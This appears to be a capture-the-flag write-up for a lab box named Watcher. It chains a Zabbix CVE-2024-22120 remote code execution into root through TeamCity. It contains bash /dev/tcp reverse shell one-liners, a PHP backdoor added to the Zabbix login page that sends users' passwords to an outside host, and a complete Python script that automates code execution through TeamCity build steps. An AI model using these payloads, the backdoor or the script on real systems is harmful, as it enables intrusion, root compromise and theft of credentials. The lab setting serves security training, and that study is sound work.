








##  Machine Summary

We first find a Zabbix instance which is a vulnerable version where we can gain RCE via `CVE-2024-22120`. After gaining a shell we can backdoor the application to gain the credentials of another user `Frank`. With that user we can login to an internal `TeamCity` instance, that runs as `root`. Where we can access the running agent on local port 9090 to open a terminal as root or create a pipeline to gain a reverse shell as `root`. 

## Recon

### Nmap
```ad-summary
nmap -sC -sV -p- --min-rate 1000 10.10.92.19 -oA watcher  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 20:02 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 20:02 (0:00:12 remaining)
Nmap scan report for 10.10.92.19
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://watcher.vl/
10050/tcp open  tcpwrapped
10051/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial Access
We are first presented with a normal website. We then perform subdomain enumeration:
```
ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://watcher.vl -H 'Host: FUZZ.watcher.vl' --fw 1720
```

This yields `zabbix.watcher.vl`

Guest login is enabled there. After login we can see a dashboard where it states the zabbix version as `Zabbix version 7.0.0alpha1`.
There is a [RCE vulnerability](https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/) for this version. A [POC is available on Github](https://github.com/W01fh4cker/CVE-2024-22120-RCE) 

To get the `hostid` we can navigate to Inventory -> Hosts . There is only one with a hostid of `10084` which can be found as a query parameter after clicking on the host.
The `sessionid` can be found in cookie, by base64 decoding it.

Then the script can be run by providing those two parameters:
```
python3 CVE-2024-22120-RCE-2.py --ip zabbix.watcher.vl --sid bbf2d4b5233188ccfe382b39129644f5 --hostid 10084
```

After gaining a shell, it's advisable to stabilize the shell using something like pwncat:

```
bash -c "/bin/bash -i >& /dev/tcp/REDACTED/6063 0>&1" &
```

```
pwncat-cs -lp 6063
```

## Privilege Escalation

After stabilizing the shell we can get the user flag.

There is an interesting service running at 8111 which seems to be a `Teamcity` instance:
To access it we add our ssh key to the users home `/var/lib/zabbix/.ssh` inside `authorized_keys`. We can't actually login using ssh, but we can still use that for a socks proxy:

```
ssh -D 1080 -N -i zabbix.key zabbix@watcher.vl
```

We seem to have access to the login page in `/usr/share/zabbix/index.php` .
We can backdoor that file to forward all logins to our host:

```
$name = $_POST['name'] ?? 'Unknown';
$password = $_POST['password'] ?? 'Unknown';

// Prepare the log entry
//$logEntry = "Name: " . $name . ", Password: " . $password . "\n";

// Write the log entry to the file /tmp/log.txt
// The FILE_APPEND flag ensures the entry is added at the end of the file
// The file will be created if it does not exist
//file_put_contents('/tmp/log.txt', $logEntry, FILE_APPEND);
file_get_contents('http://REDACTED/x?name=' . $_POST['name'] . '&pass=' . $password);
//echo "Data logged successfully2!";
```

Then we get a request to our server after a few minutes:
```
10.10.70.236 - - [25/Jul/2024 23:01:02] "GET /x?name=Frank&pass=REDACTED HTTP/1.1" 404 -
```

We now have creds:
- `Frank`:`REDACTED`

You can also use this oneliner to get the creds in a file like `.loot` in the same folder as `index.php`
```
file_put_contents(".loot", $_POST['name'] . ":" . $_POST['password'] . "\n", FILE_APPEND);
```

We can now use those creds to access Teamcity. 
<br>
There is a agent running. Just open the terminal on this one and you can run system commands as root. 



The other way is creating a pipeline to get a shell.
<br>
Create a new project:



On the page we now get redirected to there is a Button `Create Build Configuration`


Just enter a name and save


Then skip the VCS integration


Then in the BuildConfiguration switch to BuildSteps in the navbar on the left:


There you can add a build step:


Select `Command Line` as type:


Then we enter reverse shell command in the Custom Script box:


Then save and click run on the top:


After a few seconds a revshell as root will get sent to our host.

We can then read the flag from the root directory:
```
(remote) root@watcher.vl:/root# cat root.txt 
VL{REDACTED}
```

All the steps can be automated. 
<br>
Authenticate -> Create: project, build config and build step -> Run build with the agent. 

```python
#!/usr/bin/python3
import os
import requests
import random
from bs4 import BeautifulSoup
import argparse

parser = argparse.ArgumentParser(description='RCE in TeamCity: Tested in TeamCity Professional 2024.03.3 (build 156364)')
parser.add_argument('--url', required=True, help='http://localhost:8111',)
parser.add_argument('--username', required=True, help='Name of the user',)
parser.add_argument('--password', required=True, help='Password of the user',)
parser.add_argument('--cmd', required=True, help="bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'",)
args = parser.parse_args()

S = requests.Session()
headers = {
    'Content-Type': 'application/json',
    }
n = random.randint(100,999)

r = S.get(args.url+'/login.html')
soup = BeautifulSoup(r.text, 'lxml')
tc_csrf_token = soup.find('meta', {'name':'tc-csrf-token'})['content']
public_key = soup.find('input', {'name':'publicKey'})['value']
print(f'publickey: {public_key}')

def login():
    r = S.get(args.url+'/httpAuth/app/rest/server', auth=(args.username, args.password), headers=headers)
    print(f'login() {r.status_code}')
    print(f'Login with user {args.username}:{args.password}')
    r = S.get(args.url+'/favorite/projects?mode=builds')
    soup = BeautifulSoup(r.text, 'lxml')
    tc_csrf_token = soup.find('input', {'name':'tc-csrf-token'})['value']
    print(f'CSRF Token: {tc_csrf_token}')
    return tc_csrf_token

def create_project():
    project = 'ProjectShell'+ str(n)
    data = {
        'parentId': '_Root',
        'name': project,
        'externalId': project,
        'description': '',
        'submitProject': 'store',
        'submitCreateProject': 'Create',
        'tc-csrf-token': tc_csrf_token,
    }
    r = S.post(args.url+'/admin/createProject.html', data=data)
    print(f'reate_project() {r.status_code}')
    print(f'Crate new Project: {project}')
    return project

def create_build_configuration():
    build_config = project + '_BuildConfig'
    data = {
        'parentProjectId': project,
        'buildTypeName': 'build_config',
        'buildTypeExternalId': build_config,
        'description': '',
        '-ufd-teamcity-ui-buildConfigurationType': 'Regular',
        'buildConfigurationType': 'REGULAR',
        'createBuildType': 'Create',
        'tc-csrf-token': tc_csrf_token,
    }
    r = S.post(args.url+'/admin/createBuildType.html', data=data)
    print(f'create_build_configuration() {r.status_code}')
    print(f'Create Build Configuration: {build_config}')
    return build_config

def create_build_step():
    build_step = 'cmd_'+str(n)
    data = {
        "runTypeInfoKey":"simpleRunner",
        "buildStepName":build_step,
        "newRunnerId":build_step,
        "prop:teamcity.step.phase":"",
        "-ufd-teamcity-ui-prop:teamcity.step.mode":"If all previous steps finished successfully",
        "prop:teamcity.step.mode":"default",
        "condition[]":"",
        "publicKey":public_key,
        "prop:teamcity.build.workingDir":"",
        "-ufd-teamcity-ui-prop:use.custom.script":"Custom script",
        "prop:use.custom.script":True,
        "prop:command.executable":"",
        "prop:command.parameters":"",
        "prop:script.content":args.cmd,
        "wrapToggle":"",
        "prop:log.stderr.as.errors":"",
        "prop:plugin.docker.imageId":"",
        "prop:plugin.docker.imagePlatform":"",
        "-ufd-teamcity-ui-prop:plugin.docker.imagePlatform":"<Any>",
        "prop:plugin.docker.run.parameters":"",
        "showDSL=&showDSLVersion":"",
        "showDSLPortable":"",
        "submitButton":"Save",
        "tc-csrf-token":tc_csrf_token,
        "numberOfSettingsChangesEvents":3       
    }
    
    r = S.post(args.url+f'/admin/editRunType.html?id=buildType:{build_config}&runnerId=__NEW_RUNNER__&submitBuildType=store', data=data)
    print(f'create_build_step() {r.status_code}')
    print(f'New Build Step: Command Line: {build_step}')
    return build_step

def run_build():
    data = {
        "buildTypeId":build_config,
        "redirectTo":"",
        "stateKey":"",
        "dependOnPromotionIds":"",
        "customBuildDialog":True,
        "forceAutoGeneratedBranch":"",
        "personalPatchUploaded":"",
        "-ufd-teamcity-ui-agentId":"<the fastest idle agent>",
        "agentId":"",
        "_personal":"",
        "file%3ApersonalPatch":"",
        "uploadPatch":True,
        "buildTypeId":build_config,
        "stateKey":"",
        "tc-csrf-token":tc_csrf_token,
        "_moveToTop":"",
        "_cleanSources":"",
        "ring-radio-0-7zy2":"ASAP",
        "buildComment":"",
        "buildTagsInfo":"",
        "_applyToChainBuilds":"",
        "addToFavorite":True,
        "_addToFavorite":""
    }
    r = S.post(args.url+'/runCustomBuild.html', data=data)
    print(f'run_build() {r.status_code}')
    print(f'Run Build...')

tc_csrf_token = login()
project = create_project()
build_config = create_build_configuration()
build_step = create_build_step()
run_build()
```

Comamnd to run the script:
* `./teamcity_rce.py --url http://localhost:8111 --username Frank --password 'REDACTED' --cmd "bash -c 'bash -i >& /dev/tcp/REDACTED/9002 0>&1'"`
